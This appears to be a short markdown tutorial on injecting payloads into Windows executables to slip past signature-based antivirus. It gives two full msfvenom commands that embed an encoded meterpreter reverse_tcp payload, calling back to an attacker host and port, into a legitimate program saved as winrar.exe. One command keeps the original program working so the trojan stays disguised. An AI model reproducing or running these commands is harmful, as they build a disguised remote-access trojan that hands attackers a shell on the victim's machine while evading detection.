 # Injecting Payloads into Windows portable executables

This can be used to avoid signature based AVs  
-x -- this will allow us to use a template
-k -- This will preserve the template behaviour and inject payload as new thread

_Some executables will not allow injections_  

Winrar will allow you to inject  
1. Download winrar
2. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Host IP) LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x (executable you are injecting) > winrar.exe```

Maintain functionality of exe  
1. Download winrar
2. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Host IP) LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x (executable you are injecting) > winrar.exe```  
This technique doesnt work muc hany longer due to antivirus catching on
